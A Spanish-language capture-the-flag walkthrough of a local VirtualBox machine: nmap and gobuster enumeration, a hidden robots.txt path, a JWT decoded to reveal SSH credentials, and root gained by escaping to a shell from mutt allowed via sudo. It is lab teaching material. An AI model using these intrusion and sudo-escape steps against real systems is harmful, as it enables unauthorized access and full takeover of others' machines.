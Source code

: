 hacemos un escaneo con Nmap en este caso yo puse la ip en una variable para usarla mas rápidamente.
```bash
ip=192.168.1.140
sudo nmap -p- --open -sS -sC -sV -Pn $ip -v -oN escaneo.txt

[sudo] contraseña para kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-23 15:42 -05
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:42
Completed NSE at 15:42, 0.00s elapsed
Initiating NSE at 15:42
Completed NSE at 15:42, 0.00s elapsed
Initiating NSE at 15:42
Completed NSE at 15:42, 0.00s elapsed
Initiating ARP Ping Scan at 15:42
Scanning 192.168.1.140 [1 port]
Completed ARP Ping Scan at 15:42, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:42
Completed Parallel DNS resolution of 1 host. at 15:42, 0.00s elapsed
Initiating SYN Stealth Scan at 15:42
Scanning 192.168.1.140 (192.168.1.140) [65535 ports]
Discovered open port 21/tcp on 192.168.1.140
Completed SYN Stealth Scan at 15:42, 1.49s elapsed (65535 total ports)
Initiating Service scan at 15:42
Scanning 1 service on 192.168.1.140 (192.168.1.140)
Completed Service scan at 15:42, 2.05s elapsed (1 service on 1 host)
NSE: Script scanning 192.168.1.140.
Initiating NSE at 15:42
Completed NSE at 15:43, 14.46s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 6.13s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Nmap scan report for 192.168.1.140 (192.168.1.140)
Host is up (0.00011s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
|_ftp-bounce: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey: 
|   2048 56:9b:dd:56:a5:c1:e3:52:a8:42:46:18:5e:0c:12:86 (RSA)
|   256 1b:d2:cc:59:21:50:1b:39:19:77:1d:28:c0:be:c6:82 (ECDSA)
|_  256 9c:e7:41:b6:ad:03:ed:f5:a1:4c:cc:0a:50:79:1c:20 (ED25519)
MAC Address: 08:00:27:D2:BA:51 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.87 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)```
vemos que el puerto 21 generalmente asignado a ftp esta abierto, recordar que el puerto 22 es el asignado por defecto al ssh , hay que sospechar.
primero trate de conectarme a través de la web pero no hay respuesta
aquí entonces empleamos el comando 
```bash
❯ curl http://$ip:21

Hello Bro!
You only need a port to be happy...


```
hay algo de información,  por curiosidad hagamos un fuzzing haber si sale algo..
```bash
❯ gobuster dir -u http://$ip:21 -w CTF/thm/dic/common.txt -q
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 49]
/robots.txt           (Status: 200) [Size: 58]
/server-status        (Status: 200) [Size: 4027]

```
ha salido algo ahora hay que probar nuevamente con curl haber que pasa..
por defecto el archivo mas interesante es robots.txt
```bash
❯ curl http://$ip:21/robots.txt
User-agent: *
Disallow: /9a618248b64db62d15b300a07b00580b

```
bingo tenemos un tipo de hash o algún tipo de contenido que esta siendo oculto de forma intencional.
seguimos usando curl 
```bash
❯ curl http://$ip:21/9a618248b64db62d15b300a07b00580b
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://192.168.1.140:21/9a618248b64db62d15b300a07b00580b/">here</a>.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 192.168.1.140 Port 21</address>
</body></html>

```
tenemos un archivo HTML que esta siendo ocultado de los navegadores.. usamos curl pero agregando una barra / 
```bash
curl http://$ip:21/9a618248b64db62d15b300a07b00580b/
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiIiLCJpYXQiOm51bGwsImV4cCI6bnVsbCwiYXVkIjoiIiwic3ViIjoiIiwiaWQiOiIxIiwidXNlcm5hbWUiOiJtYXVybyIsInBhc3N3b3JkIjoibUB1UjAxMjMhIn0.zMeVhhqARJ6YzuMtwahGQnegFDhF7r0BCPf3H9ljDIk
```
ahora tenemos un token jwt (json web token)
en mi caso usare python 
```python 
import jwt
import json

def decodificar_jwt(token):

    try:

        token_decodificado = jwt.decode(token, algorithms=['HS256'], options={

                                        "verify_signature": False})

        return token_decodificado

    except jwt.ExpiredSignatureError:

        return "Token caducado"

    except jwt.InvalidTokenError as e:

        return "Error en el token: " + str(e)
        
token_jwt = input("Ingresa el token JWT: ")

datos_decodificados = decodificar_jwt(token_jwt)

datos = (datos_decodificados)

print(json.dumps(datos, indent=4))

```
lo corro desde el vs por que es un script de prueba.
```python
Ingresa el token JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiIiLCJpYXQiOm51bGwsImV4cCI6bnVsbCwiYXVkIjoiIiwic3ViIjoiIiwiaWQiOiIxIiwidXNlcm5hbWUiOiJtYXVybyIsInBhc3N3b3JkIjoibUB1UjAxMjMhIn0.zMeVhhqARJ6YzuMtwahGQnegFDhF7r0BCPf3H9ljDIk
{
    "iss": "",
    "iat": null,
    "exp": null,
    "aud": "",
    "sub": "",
    "id": "1",
    "username": "mauro",   
    "password": "m@uR0123!"
}
```
tenemos usuario y contraseña para conectarnos via ssh
bien... ya tenemos acceso ssh
```bash
❯ ssh mauro@192.168.1.140 -p 21
mauro@192.168.1.140's password: 
mauro@plex:~$ 


```
como buena practica siempre usar <h1>sudo -L</h1> para saber a que tenemos acceso como usuarios root..
en este caso  hay acceso como root 
```bash
mauro@plex:~$ sudo -l
Matching Defaults entries for mauro on plex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mauro may run the following commands on plex:
    (root) NOPASSWD: /usr/bin/mutt

```
tenemos un acceso a /usr/bin/mutt
ahora vamos a ejecutarlo.
ponemos sudo /usr/bin/mutt y enter
luego en ponemos el simbolo ! para activar la barra de comandos y ponemos /bin/bash
```bash
mauro@plex:~$ sudo /usr/bin/mutt
root@plex:/home/mauro# 

```
ya somos usuarios root
happy hacking!!!
